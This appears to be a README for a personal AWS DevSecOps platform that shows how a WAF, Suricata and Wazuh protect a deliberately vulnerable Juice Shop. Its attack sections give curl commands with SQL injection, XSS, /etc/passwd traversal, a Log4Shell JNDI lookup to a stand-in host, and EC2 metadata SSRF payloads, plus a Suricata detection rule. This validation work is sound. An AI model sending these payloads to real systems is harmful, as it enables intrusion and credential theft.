


# ☁️ CloudOptima: A DevSecOps-Integrated Internal Developer Platform for Automated, Secure & Policy-Governed AWS Provisioning 🕵

[](https://aws.amazon.com/)
[](https://www.jenkins.io/)
[](https://developer.hashicorp.com/terraform)
[](https://www.ansible.com/)
[](https://www.docker.com/)
[](https://wazuh.com/)
[](https://suricata.io/)
[](https://grafana.com/)

> CloudOptima is an AWS-based Internal Developer Platform and DevSecOps security environment that connects self-service provisioning, secure CI/CD, web protection, network intrusion detection, SIEM, AWS audit logging, and operational observability.

---

## 🧭 Executive Summary

CloudOptima was built to demonstrate the **complete engineering and security lifecycle** of a cloud application platform rather than a collection of disconnected tools.

```text
Developer / Platform User
          │
          ▼
CloudOptima IDP (Flask + PostgreSQL)
          │
          ▼
       GitHub
          │
          ▼
       Jenkins
          │
          ├── SonarQube
          ├── GitLeaks
          ├── Terraform
          ├── Checkov
          ├── Infracost
          ├── OPA
          ├── Docker
          ├── Trivy
          ├── Amazon ECR
          └── Ansible
                 │
                 ▼
            AWS Runtime
                 │
         ┌───────┴────────┐
         ▼                ▼
      AWS WAF             ALB
                            │
                            ▼
                       Juice Shop
                            │
                 ┌──────────┴──────────┐
                 ▼                     ▼
             Wazuh Agent         Traffic Mirroring
                                       │
                                       ▼
                                  Suricata IDS
                                       │
                                       ▼
                                    Wazuh
                                       │
                                       ▼
                              Security Dashboard

AWS CloudTrail
      │
      ▼
Dedicated S3
      │
      ▼
Wazuh aws-s3 module

Prometheus + Node Exporter + Loki/Promtail
                    │
                    ▼
                 Grafana
```

### What the platform demonstrates

- Internal Developer Platform / self-service provisioning
- GitHub-based source control
- Jenkins CI/CD
- Infrastructure as Code
- Configuration management
- Shift-left security
- Secret detection
- IaC security
- Policy-as-code
- Container security
- AWS-native web protection
- Network IDS
- SIEM
- Cloud audit
- Observability
- Controlled attack validation
- Troubleshooting and detection engineering

---

# 🏗️ Overall Architecture




### Architecture layers

```text
┌──────────────────────────────────────────────────────────────────────┐
│ 1. PLATFORM ENGINEERING                                              │
│                                                                      │
│ Developer → Flask IDP → PostgreSQL → Terraform/Ansible generators   │
└──────────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌──────────────────────────────────────────────────────────────────────┐
│ 2. SOURCE CONTROL                                                    │
│                                                                      │
│ GitHub → infrastructure / application / pipeline source              │
└──────────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌──────────────────────────────────────────────────────────────────────┐
│ 3. DEVSECOPS                                                         │
│                                                                      │
│ Jenkins → SonarQube → GitLeaks → Terraform → Checkov → Infracost    │
│        → OPA → Docker → Trivy → ECR → Ansible                       │
└──────────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌──────────────────────────────────────────────────────────────────────┐
│ 4. AWS RUNTIME                                                       │
│                                                                      │
│ Internet → WAF → ALB → Juice Shop                                   │
│                         │                                            │
│                         └── Traffic Mirror → Suricata                │
└──────────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌──────────────────────────────────────────────────────────────────────┐
│ 5. SECURITY OPERATIONS                                                │
│                                                                      │
│ Wazuh + Suricata + CloudTrail → Wazuh Dashboard / Analyst            │
└──────────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌──────────────────────────────────────────────────────────────────────┐
│ 6. OBSERVABILITY                                                      │
│                                                                      │
│ Prometheus + Node Exporter + Loki/Promtail → Grafana                 │
└──────────────────────────────────────────────────────────────────────┘
```

---

# 🔄 End-to-End Project Workflow

```text
1. Developer requests infrastructure/application through the IDP
2. IDP generates Terraform/Ansible/application artifacts
3. Source is committed to GitHub
4. Jenkins checks out the exact Git revision
5. Pipeline executes quality/security/policy/cost checks
6. Approved artifacts are built and published
7. Terraform/Ansible deploy/configure the runtime
8. AWS WAF protects the public application path
9. ALB routes legitimate traffic to Juice Shop
10. Traffic Mirror copies selected backend traffic to Suricata
11. Wazuh collects endpoint and security telemetry
12. CloudTrail audits AWS control-plane activity
13. Prometheus/Loki/Grafana monitor operational health
14. Analyst investigates validated security events
```

---

# 🧰 Technology Stack

| Area | Technologies |
|---|---|
| Platform Engineering | Flask, PostgreSQL, Terraform Generator, Ansible Generator |
| Source Control | GitHub |
| CI/CD | Jenkins |
| IaC | Terraform |
| Configuration Management | Ansible |
| Code Quality | SonarQube |
| Secret Detection | GitLeaks |
| IaC Security | Checkov |
| Policy-as-Code | OPA |
| Cost Estimation | Infracost |
| Containers | Docker |
| Container Security | Trivy |
| Registry | Amazon ECR |
| Cloud | AWS EC2, ALB, WAF, IAM, S3, CloudTrail |
| Network Security | Suricata, AWS Traffic Mirroring |
| SIEM | Wazuh |
| Metrics | Prometheus, Node Exporter |
| Logs | Loki, Promtail |
| Visualization | Grafana |
| Attack Testing | Kali Linux |
| Application Target | OWASP Juice Shop |
| Web Testing | Burp Suite / browser-based testing |

---

# 🌐 Network Architecture

> This section was intentionally added because the network design is a key part of the project and should not be hidden inside the generic architecture diagram.

## AWS Network Model

CloudOptima uses private AWS networking for the EC2 workloads while the application is exposed through an Application Load Balancer.

### Observed private infrastructure addresses

| Component | Private IP | Purpose |
|---|---:|---|
| DevSecOps / Jenkins | `10.0.13.50` | Jenkins + DevSecOps tooling |
| Wazuh Manager | `10.0.39.73` | SIEM / security management |
| Suricata Sensor | `10.0.47.60` | Network IDS |
| Juice Shop | `10.0.104.170` | Vulnerable application target |

> **Important:** The exact final VPC CIDR, subnet CIDRs, route tables and security-group rules should be copied from the final Terraform state/configuration before publication. Do not publish guessed CIDRs.

---

## Network Communication Model

```text
                         INTERNET / KALI
                               │
                               │ HTTP
                               ▼
                       ┌─────────────────┐
                       │    AWS WAF      │
                       └────────┬────────┘
                                │
                                │ HTTP
                                ▼
                       ┌─────────────────┐
                       │       ALB       │
                       └────────┬────────┘
                                │
                                │ TCP/80
                                ▼
                       ┌─────────────────┐
                       │  Juice Shop EC2 │
                       │  10.0.104.170   │
                       └────────┬────────┘
                                │
                 ┌──────────────┴──────────────┐
                 │                             │
                 │ Wazuh Agent traffic         │ Traffic Mirror
                 ▼                             ▼
        ┌─────────────────┐            ┌─────────────────┐
        │ Wazuh Manager   │            │ Suricata Sensor │
        │ 10.0.39.73      │            │ 10.0.47.60      │
        └─────────────────┘            └─────────────────┘

DevSecOps EC2
10.0.13.50
      │
      ├──── GitHub / AWS / ECR / Jenkins integrations
      │
      └──── Wazuh Agent → Wazuh Manager
```

---

# 🔌 Port & Protocol Matrix

The following matrix separates **ports explicitly observed/used during the implementation** from ports that may exist internally in standard deployments.

| Port | Protocol | Component | Purpose | Status |
|---:|---|---|---|---|
| `80` | TCP/HTTP | ALB → Juice Shop | Web application traffic | Observed |
| `5000` | TCP/HTTP | Flask IDP | Prototype Flask application | Used during implementation |
| `8080` | TCP/HTTP | Jenkins | Jenkins UI | Observed during implementation |
| `1514` | TCP | Wazuh Agents → Manager | Wazuh event transport | Observed in packet capture |
| `4789` | UDP/VXLAN | Traffic Mirroring | Mirrored packet delivery | Verified with `tcpdump` |
| `9100` | TCP | Node Exporter | Prometheus metrics | Observed in deployment |
| `5432` | TCP | PostgreSQL | Flask ↔ PostgreSQL | Application configuration |
| `443` | TCP/HTTPS | AWS/GitHub/ECR/APIs | Secure API/web communication | Used by integrations |

### Wazuh traffic evidence

Traffic observed during troubleshooting included Wazuh traffic involving:

```text
10.0.39.73:1514
```

This helped validate the agent-to-manager path.

### Traffic Mirroring evidence

Traffic was verified using:

```bash
sudo timeout 20 tcpdump -ni ens5 'udp port 4789' -vv
```

Observed:

```text
VXLAN
VNI 5174942
```

This proved mirrored traffic was reaching the Suricata sensor.

---

# 🔐 Communication Matrix

| Source | Destination | Purpose | Protocol / Port |
|---|---|---|---|
| Kali | ALB | Web/security testing | HTTP/80 |
| ALB | Juice Shop | Application delivery | TCP/80 |
| Juice Shop | Wazuh Manager | Security telemetry | TCP/1514 |
| Suricata | Wazuh Manager | Agent telemetry | TCP/1514 |
| DevSecOps | Wazuh Manager | Agent telemetry | TCP/1514 |
| DevSecOps | GitHub | Source/control integration | HTTPS/443 |
| DevSecOps | AWS APIs | Infrastructure/deployment | HTTPS/443 |
| DevSecOps | Amazon ECR | Container registry | HTTPS/443 |
| Wazuh Manager | AWS S3 | CloudTrail log retrieval | HTTPS/443 |
| Wazuh Manager | AWS APIs | CloudTrail/AWS integrations | HTTPS/443 |
| Flask | PostgreSQL | Application data | TCP/5432 |
| Prometheus | Node Exporter | Metrics scraping | TCP/9100 |

> The exact security-group source/destination rules should be documented in the dedicated AWS networking runbook using the final Terraform configuration.

---

# 🧱 Network Security Boundaries

CloudOptima uses multiple boundaries rather than relying on one firewall.

```text
Internet
   │
   ▼
AWS WAF
   │
   ▼
ALB
   │
   ▼
Application Tier
   │
   ├── Wazuh
   └── Traffic Mirror
          │
          ▼
      Suricata
          │
          ▼
    Security Operations
```

The major security boundaries are:

1. Internet → WAF/ALB
2. ALB → application
3. application → monitoring
4. application network → mirrored IDS traffic
5. AWS control plane → CloudTrail/S3
6. CI/CD → AWS APIs

---

# 🖥️ Machine / Host Inventory

## 1. DevSecOps / Jenkins

```text
Name:
cloudoptima-devsecops

Private IP:
10.0.13.50

Primary role:
CI/CD + DevSecOps automation

Key components:
Jenkins
Terraform
Ansible
Checkov
Infracost
OPA
SonarQube integration
GitLeaks
Docker
Trivy
AWS CLI
ECR integration
```

Wazuh:

```text
Agent ID: 004
Name: cloudoptima-devsecops
Status: Active
```

---

## 2. Wazuh Manager

```text
Private IP:
10.0.39.73

Primary role:
SIEM / security monitoring
```

Key responsibilities:

```text
Wazuh Manager
Wazuh API
AWS-S3 / CloudTrail integration
Agent management
Security event correlation
Dashboard backend
```

---

## 3. Suricata Sensor

```text
Private IP:
10.0.47.60

Primary role:
Network IDS
```

Key components:

```text
Docker
cloudoptima-suricata
Suricata 8.0.6
ens5
Traffic Mirroring
EVE JSON
custom detection rules
```

---

## 4. Juice Shop

```text
Private IP:
10.0.104.170

Primary role:
Deliberately vulnerable application / security test target
```

Key components:

```text
OWASP Juice Shop
Wazuh Agent 001
Traffic Mirror source
```

---

# 🌍 Deployed Application Evidence

The repository should show that Juice Shop is not merely a diagram component — it was actually deployed and reachable through the intended application path.

## Live Juice Shop UI




Recommended screenshot content:

```text
Browser
   ↓
CloudOptima ALB URL
   ↓
OWASP Juice Shop homepage
```

Capture the browser with the **real deployed application URL visible**.

---

## Burp Suite / Web Testing Evidence

> 📸 **Recommended screenshot**
>
> `docs/screenshots/application/burp-suite-target.png`

Show:

```text
Burp Suite
   ↓
Target / Proxy / HTTP history
   ↓
CloudOptima ALB / Juice Shop
```

Do not expose:

```text
credentials
session cookies
Authorization headers
tokens
personal data
```

---

# 🎥 Attack Demonstration Strategy

## Should attacks be screenshots or video?

Use **both**, but give each a different role.

### Screenshots = permanent technical evidence

For each attack, keep:

```text
1. Attack request
2. HTTP response
3. WAF / detection rule
4. Wazuh/Suricata evidence when applicable
```

This makes the repository independently reviewable.

### Video = live demonstration

Create **one short end-to-end demo video** showing:

```text
Normal request
      ↓
SQLi
      ↓
403
      ↓
WAF evidence
      ↓
Wazuh/Security dashboard
```

Then briefly show the other four validated attacks.

Recommended:

```text
docs/demo/cloudoptima-security-demo.mp4
```

or an external unlisted YouTube/Drive link if repository size is a concern.

### Recommended balance

```text
README
  ↓
screenshots + result tables

Attack documentation
  ↓
screenshots + commands + evidence

Video
  ↓
fast recruiter/technical demonstration
```

Do **not** rely on video alone.

---

# 🔥 Attack Evidence Standard

Every attack should have the same documentation format:

```text
Attack
   ↓
Command / Request
   ↓
Expected behavior
   ↓
Actual response
   ↓
Matching WAF / IDS / SIEM rule
   ↓
Security interpretation
   ↓
Screenshot
```

This creates a professional case-study format.

---

# 🧪 Attack 1 — SQL Injection

## Test

```text
GET /rest/products/search?q=' OR 1=1--
```

Example controlled command:

```bash
curl -iG \
  'http://cloudoptima-alb-708681634.eu-north-1.elb.amazonaws.com/rest/products/search' \
  --data-urlencode "q=' OR 1=1--"
```

## Before WAF

The request reached Juice Shop and produced:

```text
HTTP 500
```

with application/database error behavior.

## After WAF

```text
HTTP 403 Forbidden
```

## WAF evidence

```text
AWS#AWSManagedRulesSQLiRuleSet#SQLi_QUERYARGUMENTS
```

Action:

```text
BLOCK
```

## Screenshots

```text
docs/screenshots/attacks/01-sqli-request.png
docs/screenshots/attacks/01-sqli-403.png
docs/screenshots/attacks/01-sqli-waf-rule.png
```

---

# 🧪 Attack 2 — XSS

Example controlled request:

```bash
curl -iG \
  'http://cloudoptima-alb-708681634.eu-north-1.elb.amazonaws.com/rest/products/search' \
  --data-urlencode 'q=<script>alert(1)</script>'
```

Expected/result:

```text
HTTP 403 Forbidden
```

Primary control:

```text
AWSManagedRulesCommonRuleSet
```

Screenshots:

```text
docs/screenshots/attacks/02-xss-request.png
docs/screenshots/attacks/02-xss-403.png
docs/screenshots/attacks/02-xss-waf-rule.png
```

---

# 🧪 Attack 3 — LFI / Path Traversal

Controlled request:

```bash
curl -i \
  'http://cloudoptima-alb-708681634.eu-north-1.elb.amazonaws.com/%2e%2e/%2e%2e/etc/passwd'
```

Result:

```text
HTTP 403 Forbidden
```

Matched WAF rule:

```text
AWS#AWSManagedRulesLinuxRuleSet#LFI_URIPATH
```

Screenshots:

```text
docs/screenshots/attacks/03-lfi-request.png
docs/screenshots/attacks/03-lfi-403.png
docs/screenshots/attacks/03-lfi-waf-rule.png
```

---

# 🧪 Attack 4 — Log4Shell-Style Known-Bad Input

Controlled request:

```bash
curl -iG \
  'http://cloudoptima-alb-708681634.eu-north-1.elb.amazonaws.com/rest/products/search' \
  --data-urlencode 'q=${jndi:ldap://example.com/a}'
```

Result:

```text
HTTP 403 Forbidden
```

Primary protection:

```text
AWSManagedRulesKnownBadInputsRuleSet
```

Observed family:

```text
Log4J
```

Screenshots:

```text
docs/screenshots/attacks/04-log4j-request.png
docs/screenshots/attacks/04-log4j-403.png
docs/screenshots/attacks/04-log4j-waf-rule.png
```

---

# 🧪 Attack 5 — SSRF / EC2 Metadata Access Attempt

Controlled request:

```bash
curl -iG \
  'http://cloudoptima-alb-708681634.eu-north-1.elb.amazonaws.com/rest/products/search' \
  --data-urlencode 'q=http://169.254.169.254/latest/meta-data/'
```

Result:

```text
HTTP 403 Forbidden
```

Observed rule:

```text
AWS#AWSManagedRulesCommonRuleSet#EC2MetaDataSSRF_QUERYARGUMENTS
```

Screenshots:

```text
docs/screenshots/attacks/05-ssrf-request.png
docs/screenshots/attacks/05-ssrf-403.png
docs/screenshots/attacks/05-ssrf-waf-rule.png
```

---

# 🔎 WAF Sampled-Request Evidence

Use:

```bash
aws wafv2 get-sampled-requests \
  --web-acl-arn <WAF_ARN> \
  --rule-metric-name <METRIC> \
  --scope REGIONAL \
  --time-window "StartTime=...,EndTime=..." \
  --max-items 20 \
  --region eu-north-1
```

Important evidence fields:

```text
ClientIP
Country
URI
Method
Timestamp
Action
RuleNameWithinRuleGroup
```

> Query the WAF sampled requests **immediately after** the attack or use the correct timestamp window. Running the query too late can return `PopulationSize: 0` even when the WAF blocked the request earlier.

---

# 📊 Attack Validation Matrix

| ID | Attack | Entry Point | Main Control | Result | Primary Evidence |
|---|---|---|---|---|---|
| A01 | SQL Injection | ALB | AWS SQLi managed rule | BLOCK | WAF sampled request |
| A02 | XSS | ALB | AWS Common Rule Set | BLOCK | WAF sampled request |
| A03 | LFI | ALB | AWS Linux Rule Set | BLOCK | `LFI_URIPATH` |
| A04 | Log4Shell-style | ALB | Known Bad Inputs | BLOCK | Log4J rule |
| A05 | SSRF | ALB | AWS Common Rule Set | BLOCK | `EC2MetaDataSSRF_QUERYARGUMENTS` |

---

# 🕵️ Security Operations Evidence

## Wazuh Dashboard

Recommended screenshots:

```text
docs/screenshots/wazuh/final-dashboard.png
docs/screenshots/wazuh/ssh-bruteforce-5712.png
docs/screenshots/wazuh/cloudtrail-80202.png
docs/screenshots/wazuh/agent-inventory.png
```

Main dashboard panels:

```text
Total Security Alerts
High/Critical Alerts
Authentication Failures
Suricata Alerts
SQL Injection Alerts
AWS CloudTrail Events
Alert Volume by Agent
```

---

# 🔎 Wazuh Agent Inventory

Final active agents:

```text
000 cloudoptima-wazuh       Local
001 juice-shop-demo         Active
002 suricata-sensor         Active
004 cloudoptima-devsecops   Active
```

Validation:

```bash
sudo /var/ossec/bin/agent_control -l
sudo /var/ossec/bin/agent_control -lc
```

Detailed agent:

```bash
sudo /var/ossec/bin/agent_control -i 004
```

---

# 🚨 SSH Brute-Force Detection

Validated Wazuh rule:

```text
5712
```

Description:

```text
sshd: brute force trying to get access to the system.
Non existent user.
```

Flow:

```text
SSH attempts
   ↓
Juice Shop host
   ↓
Wazuh Agent 001
   ↓
Wazuh Manager
   ↓
Rule 5712
   ↓
Wazuh Dashboard
```

Screenshot:

```text
docs/screenshots/wazuh/ssh-bruteforce-5712.png
```

---

# ☁️ CloudTrail Detection

Trail:

```text
cloudoptima-security-trail
```

S3 destination:

```text
cloudoptima-cloudtrail-411902101270-eunorth1
```

Wazuh flow:

```text
AWS API
  ↓
CloudTrail
  ↓
S3
  ↓
Wazuh aws-s3
  ↓
Wazuh rule
  ↓
Dashboard
```

Validated rule:

```text
80202
AWS Cloudtrail: ec2.amazonaws.com - AssociateIamInstanceProfile.
```

Validation:

```bash
aws cloudtrail get-trail-status \
  --name cloudoptima-security-trail \
  --query '{Logging:IsLogging,LastDelivery:LatestDeliveryTime,LastFailure:LatestDeliveryError}' \
  --output table
```

Screenshot:

```text
docs/screenshots/wazuh/cloudtrail-80202.png
```

---

# 🐲 Suricata

## Deployment

```text
Container:
cloudoptima-suricata

Interface:
ens5

Mode:
IDS / sniffer-only
```

Check:

```bash
sudo docker ps --filter name=cloudoptima-suricata
```

Logs:

```bash
sudo docker logs --tail 20 cloudoptima-suricata
```

Configuration validation:

```bash
sudo docker exec cloudoptima-suricata \
  suricata -T \
  -c /etc/suricata/suricata.yaml
```

Expected:

```text
1 rules successfully loaded
0 rules failed
Engine started
```

---

# 📡 AWS Traffic Mirroring

Source:

```text
Juice Shop ENI
10.0.104.170
```

Destination:

```text
Suricata sensor
10.0.47.60
```

Verification:

```bash
sudo timeout 20 tcpdump -ni ens5 'udp port 4789' -vv
```

Observed:

```text
VXLAN
VNI 5174942
```

Screenshot:

```text
docs/screenshots/suricata/traffic-mirror-vxlan.png
```

Recommended second screenshot:

```text
docs/screenshots/suricata/suricata-running.png
```

---

# 🧠 Suricata Detection Engineering

Final custom rule:

```text
alert http any any -> $HOME_NET any (
  msg:"CloudOptima SQL Injection Attempt";
  http.uri.raw;
  content:"%27+OR+1%3d1--";
  nocase;
  sid:1000003;
  rev:1;
)
```

Evidence:

```bash
sudo grep -F '"signature_id":1000003' \
  /opt/cloudoptima-suricata/logs/eve.json | tail -5
```

### Why generic HTTP detection was removed

The original HTTP alert rule created very large alert volume.

An observed process reported:

```text
Alerts: 12499
```

The generic rule was removed to improve signal-to-noise ratio.

The final detector prioritizes:

```text
security signal
```

rather than:

```text
everyday HTTP telemetry
```

---

# 🚨 Why the Port-Scan Detection Was Removed

The project initially experimented with a custom port-scan rule.

The final architecture intentionally removed it because:

```text
Kali
  ↓
ALB
  ↓
traffic terminates at ALB
```

while the Traffic Mirror source was:

```text
Juice Shop ENI
```

Therefore an ALB-level port scan is not guaranteed to traverse the mirrored Juice Shop ENI.

### Engineering decision

Do not redesign the entire network only to force a demonstration.

Final responsibilities:

```text
AWS WAF
→ web prevention

Suricata
→ backend network/application detection

Wazuh
→ SIEM/correlation
```

---

# 📈 Observability

## Prometheus

Use for:

```text
CPU
Memory
Network
Host metrics
Application / ALB metrics
```

## Node Exporter

Observed:

```text
port 9100
```

## Loki / Promtail

Operational logs:

```text
system
application
service
```

## Grafana

Use for:

```text
infrastructure dashboards
performance dashboards
operational alerts
logs
```

Screenshots:

```text
docs/screenshots/grafana/final-observability-dashboard.png
docs/screenshots/grafana/operational-logs.png
docs/screenshots/grafana/alert-rules.png
```

---

# 🧑‍💻 Internal Developer Platform

## Main components

```text
Flask
PostgreSQL
Terraform Generator
Ansible Generator
GitHub Integration
```

Known file structure from implementation:

```text
config/.env
backend/app.py
backend/models.py
requirements.txt
```

Dependencies included:

```text
Flask
Flask-SQLAlchemy
Flask-Login
psycopg2-binary
python-dotenv
Werkzeug
```

> Do not commit real `.env` values.

---

# 🔐 IDP Configuration Security

Use:

```text
config/.env
```

for environment-specific values.

Keep:

```text
.env
```

out of Git.

Recommended public repository file:

```text
config/.env.example
```

containing only placeholders.

---

# 🧱 DevSecOps Pipeline

```text
GitHub
  ↓
Jenkins
  ↓
Checkout
  ↓
SonarQube
  ↓
GitLeaks
  ↓
Terraform fmt
  ↓
Terraform validate
  ↓
Terraform plan
  ↓
Checkov
  ↓
Infracost
  ↓
OPA
  ↓
Docker build
  ↓
Trivy
  ↓
ECR
  ↓
Terraform Apply
  ↓
Ansible
```

---

# ✅ DevSecOps Stage Purpose

| Stage | Purpose |
|---|---|
| Checkout | Reproducible source |
| SonarQube | Code quality / static analysis |
| GitLeaks | Secret detection |
| Terraform fmt | IaC formatting |
| Terraform validate | IaC correctness |
| Terraform plan | Change preview |
| Checkov | IaC security |
| Infracost | Cost estimation |
| OPA | Policy enforcement |
| Docker | Container build |
| Trivy | Container security |
| ECR | Artifact storage |
| Terraform Apply | Infrastructure deployment |
| Ansible | Configuration/application deployment |

---

# 🧩 Infrastructure as Code

Terraform is responsible for:

```text
infrastructure lifecycle
```

Ansible is responsible for:

```text
configuration/application lifecycle
```

The repository should contain the final Terraform and Ansible source used to create/configure the environment.

---

# 📦 Container Security

Flow:

```text
Application
   ↓
Docker build
   ↓
Trivy
   ↓
ECR
```

Typical checks:

```bash
docker build -t <image>:<tag> .
trivy image <image>:<tag>
```

Only use the final image/tag names from the actual repository/Jenkinsfile in reproducibility documentation.

---

# 🔑 AWS Identity

A recurring diagnostic command:

```bash
aws sts get-caller-identity
```

was used to confirm:

```text
AWS account
current identity
assumed role
```

This was especially useful while troubleshooting Terraform and Wazuh integrations.

---

# ☁️ AWS Infrastructure

## ALB

```text
Name:
cloudoptima-alb
```

DNS:

```text
cloudoptima-alb-708681634.eu-north-1.elb.amazonaws.com
```

Validation:

```bash
aws elbv2 describe-load-balancers \
  --names cloudoptima-alb \
  --region eu-north-1 \
  --query 'LoadBalancers[0].{DNS:DNSName,State:State.Code}' \
  --output table
```

Expected:

```text
State: active
```

---

# 🛡️ AWS WAF

Web ACL:

```text
cloudoptima-waf
```

Final protection groups:

```text
AWSManagedRulesCommonRuleSet
AWSManagedRulesSQLiRuleSet
AWSManagedRulesLinuxRuleSet
AWSManagedRulesKnownBadInputsRuleSet
RateLimit
```

Rate limit:

```text
1000 requests
300 seconds
Aggregate key: IP
Action: BLOCK
```

Validation:

```bash
aws wafv2 get-web-acl \
  --name cloudoptima-waf \
  --scope REGIONAL \
  --id 0a099086-9fde-45ba-98eb-7809de62a697 \
  --region eu-north-1 \
  --query 'WebACL.Rules[?Name==`RateLimit`].Statement.RateBasedStatement.Limit' \
  --output text
```

Expected:

```text
1000
```

---

# 🪣 CloudTrail & S3

CloudTrail trail:

```text
cloudoptima-security-trail
```

Dedicated bucket:

```text
cloudoptima-cloudtrail-411902101270-eunorth1
```

Verify objects:

```bash
aws s3 ls \
  s3://cloudoptima-cloudtrail-411902101270-eunorth1/AWSLogs/411902101270/ \
  --recursive
```

Do not publish:

```text
AWS credentials
private keys
Wazuh agent keys
Terraform state containing sensitive values
```

---

# 🛠️ Important Configuration Locations

## Flask IDP

```text
backend/app.py
backend/models.py
config/.env
requirements.txt
```

## Jenkins

```text
Jenkinsfile
```

## Terraform

```text
terraform/
```

## Ansible

```text
ansible/
```

## Suricata

```text
/opt/cloudoptima-suricata/config/suricata.yaml
/opt/cloudoptima-suricata/rules/suricata.rules
/opt/cloudoptima-suricata/logs/eve.json
```

## Wazuh

```text
/var/ossec/etc/ossec.conf
/var/ossec/etc/local_internal_options.conf
/var/ossec/etc/client.keys
/var/ossec/logs/ossec.log
```

> Never publish real `client.keys`.

---

# 🐧 Linux Command Reference

The project relied heavily on Linux administration and troubleshooting.

## Process / service checks

```bash
ps aux
systemctl status <service>
journalctl -u <service>
```

## Port/listener checks

```bash
ss -ltnp
```

## Docker

```bash
sudo docker ps
sudo docker logs <container>
sudo docker inspect <container>
sudo docker exec <container> <command>
sudo docker restart <container>
```

## File inspection

```bash
cat
grep
tail
head
sed
cp
ls
```

## Network troubleshooting

```bash
curl
tcpdump
ss
```

## Resource troubleshooting

```bash
free -h
df -h
top
```

---

# 🧪 High-Value Commands Used During the Project

### AWS identity

```bash
aws sts get-caller-identity
```

### ALB health

```bash
aws elbv2 describe-load-balancers \
  --names cloudoptima-alb \
  --region eu-north-1 \
  --query 'LoadBalancers[0].{DNS:DNSName,State:State.Code}' \
  --output table
```

### WAF association

```bash
aws wafv2 get-web-acl-for-resource \
  --resource-arn <ALB_ARN> \
  --region eu-north-1
```

### WAF sampled request

```bash
aws wafv2 get-sampled-requests \
  --web-acl-arn <WAF_ARN> \
  --rule-metric-name <METRIC> \
  --scope REGIONAL \
  --time-window "StartTime=...,EndTime=..." \
  --max-items 20 \
  --region eu-north-1
```

### CloudTrail status

```bash
aws cloudtrail get-trail-status \
  --name cloudoptima-security-trail \
  --query '{Logging:IsLogging,LastDelivery:LatestDeliveryTime,LastFailure:LatestDeliveryError}' \
  --output table
```

### Wazuh status

```bash
sudo /var/ossec/bin/wazuh-control status
```

### Wazuh agents

```bash
sudo /var/ossec/bin/agent_control -l
```

### Suricata configuration validation

```bash
sudo docker exec cloudoptima-suricata \
  suricata -T \
  -c /etc/suricata/suricata.yaml
```

### Traffic Mirror packet capture

```bash
sudo timeout 20 tcpdump -ni ens5 'udp port 4789' -vv
```

---

# 🧯 Troubleshooting & Challenges

CloudOptima was not implemented without failures. The following problems were investigated and resolved.

## Flask accessibility

Problem:

```text
Flask running on EC2
but browser could not reach it
```

Investigation:

```text
listener
→ UFW
→ AWS Security Group
```

Lesson:

```text
local service availability ≠ external network availability
```

---

## PostgreSQL

The Flask platform depended on PostgreSQL.

Service checks:

```bash
sudo systemctl status postgresql
```

The project also encountered SQLAlchemy compatibility/deprecation warnings and distinguished warnings from actual application failures.

---

## Terraform AWS credentials

Initial failure:

```text
No valid credential sources found
```

Diagnosis:

```bash
aws sts get-caller-identity
```

Resolution:

```text
IAM role-based authentication
```

---

## Jenkins Java compatibility

Initial Jenkins environment had an incompatible Java runtime.

Resolution:

```text
upgrade Java to the version required by the Jenkins release
```

---

## Suspicious Jenkins `/tmp/x86`

A suspicious process was detected.

Investigation:

```bash
ps aux | grep x86
```

Containment included:

```bash
sudo kill -9 44682
sudo rm -f /tmp/x86
```

Jenkins was restarted and verified.

This incident demonstrated the importance of treating CI infrastructure as a security-sensitive host.

---

